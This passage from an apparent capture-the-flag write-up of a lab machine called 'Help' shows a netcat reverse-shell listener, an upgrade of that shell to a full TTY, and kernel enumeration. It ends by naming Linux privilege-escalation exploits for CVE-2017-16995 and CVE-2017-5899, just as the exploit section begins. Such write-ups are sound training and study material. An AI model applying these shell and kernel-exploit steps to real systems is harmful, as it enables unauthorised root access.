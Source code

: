 Upgrade shell with standard trick (I don’t usually show this, but I always do it):

```

$ python -c 'import pty; pty.spawn("bash")'
help@help:/var/www/html/support/uploads/tickets$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# nc -lnvp 443    # i typed fg enter
                                                      reset
reset: unknown terminal type unknown
Terminal type? screen

```

Now I have a solid terminal with up arrow, tab completion, and ctrl-c:

```

help@help:/var/www/html/support/uploads/tickets$ id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

```

I can also grab user.txt:

```

help@help:/home/help$ cat user.txt
bb8a7b36...

```

## Priv: help –> root

### Enumeration

A simple `uname -a` shows the version of this host:

```

help@help:/var/www/html/support/uploads/tickets$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

```

Given that kernel is almost a year old, exploits might be in play. Googling found two exploits that might work:
- CVE-2017-16995 - [44298.c](https://www.exploit-db.com/exploits/44298) and [45010.c](https://www.exploit-db.com/exploits/45010)
- CVE-2017-5899 - [exploit.sh](https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh)

### Exploit
